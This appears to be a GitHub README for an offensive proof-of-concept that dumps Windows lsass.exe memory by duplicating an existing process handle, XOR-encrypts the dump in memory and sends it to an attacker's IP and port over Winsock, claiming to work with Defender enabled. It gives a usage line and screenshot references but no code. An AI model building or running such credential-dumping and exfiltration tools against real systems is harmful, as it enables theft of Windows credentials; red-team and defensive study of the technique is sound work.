 # LsassDuplicateHandle

PoC showcasing how to dump lsass.exe by enumerating and duplicating an existing handle to the process.

Instead of saving the dump to the disk, it gets encrypted using XOR in memory and send to the attacker machine using Winsock.

Tested on Win10 + Win11 with Defender on.

TODO
## Usage
```.powershell
.\LsassDuplicateHandle <IP> <PORT>
```

## Showcase

### Victim 
![Victim](victim.png)

### Attacker

![Attacker](attacker.png)

## OPSEC

TODO
